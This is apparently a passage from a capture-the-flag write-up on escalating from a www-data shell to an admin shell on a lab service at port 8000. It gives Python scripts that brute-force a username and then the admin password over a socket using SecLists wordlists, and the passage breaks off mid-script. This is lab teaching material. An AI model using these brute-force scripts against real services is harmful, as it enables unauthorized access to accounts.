 Looking at the code we can see that this has some similarities with the service we connected to, to get the shell as www-data. So this is probably the service that is running, we also see that the code checks for some data that is passed to it before downgrading, so we need to provide the service with some data that will be used and give us an admin shell.
To do so we will connect to the socket and use a custom wordlist to check for any words that give a different output than 'name {word} is not defined'.
Here is the python script that I used to find the word, although it is very slow (you'll need to use threading to make it quicker, or some module):

```
import socket 

client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect(('10.10.126.55', 8000))

with open('/usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt') as f:

	lines = f.readlines()
	
	for line in lines:
		client.send(line.encode())
		from_server = client.recv(4096)
		
		if 'not' in str(from_server):
			continue
			
		print(f'Word: {line}')
		print(str(from_server))
		
client.close()
print('Done')
```

Now running the code we receive the following word:

```
Word: admin
b'Start a fresh client to begin.\n'
Done
```

Now testing this ourselves, we see the following:

```
nc 10.10.126.55 8000
admin
admin
Password:
```

 Seeing this we understand that we need to change our script, or make a new script to first send admin, then use a wordlist to attempt to bruteforce the password.

```
import socket

with open('/usr/share/wordlists/seclists/Passwords/500-worst-passwords.txt') as f:
	passwords = f.readlines()
	
	for password in passwords:
	
		client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		client.connect(('10.10.126.55', 8000))
		
		client.send('admin'.encode())
		from_server = client.recv(4096)
		
		client.send(password.encode())
```
